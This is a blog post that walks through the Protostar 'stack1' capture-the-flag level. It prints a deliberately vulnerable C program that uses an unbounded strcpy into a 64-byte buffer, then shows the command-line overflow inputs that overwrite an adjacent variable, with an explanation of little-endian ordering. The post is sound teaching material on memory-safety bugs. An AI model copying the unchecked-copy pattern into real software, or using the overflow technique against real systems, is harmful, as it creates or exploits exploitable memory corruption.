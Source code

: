 ```yaml
---
layout: post
title: "More Stack Overflows: protostar stack1"
date: 2018-09-09 12:35:12 -700
categories: jekyll update
---
```

The next stack based overflow challenge on protostar involves setting a variable equal to a specific value.


#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
} 


As we can see, the goal of this level is to set the 'modified' variable equal to the value 0x61626364, and it should output a message that we have completed the challenge. 

Note that the input you supply is actually through the command line. It would be supplied like this, where foobar is whatever your input is.

$./stack1 foobar

Let's solve this.

$./stack1 $(python -c 'print "A"*65')

Try again, you got 0x00000041

$

We know the buffer is size 64, and if we look at the source code, we see that the variable we are attempting to modify is right next to the buffer. It makes perfect sense that putting one character more than the size of the buffer would set the variable equal to 0x41, which is the ascii value of "A".

what does this mean?
It means we need to fill the buffer with 64 characters (I will be using "A", but you could do it with really any) and then we need to set the variable equal to 0x61626364. That should be easy!

For the variable, we could either use python (or another language like perl) to set the variable, or we could use ascii characters, if they are printable. Because this is a rare case of needing to set a variable to a number with corresponding ascii characters in the printable range, let's do this.
We can look up the ascii table and find that 
	0x61 corresponds to "a"
	0x62 corresponds to "b"
	0x63 corresponds to "c"
	0x64 corresponds to "d"

$./stack1 $(python -c 'print "A"*64 + "abcd"')

Try again, you got 0x64636261

$

Our number looks backwards! What is going on here? If you notice, the first character we put into it was "a", which is 0x61. But we see that is at the end of our number, when we need it at the beginning. 

This is because of something called Little Endian byte order, which essentially means that the first byte we put in will be the least significant byte.

This also means, in terms of solving this challenge, we need to put our ascii characters backwards. 

$./stack1 $(python -c 'print "A"*64 + "dcba"')

you have correctly got the variable to the right value

$

Cool, now we know that we can set variables to be equal to specific values!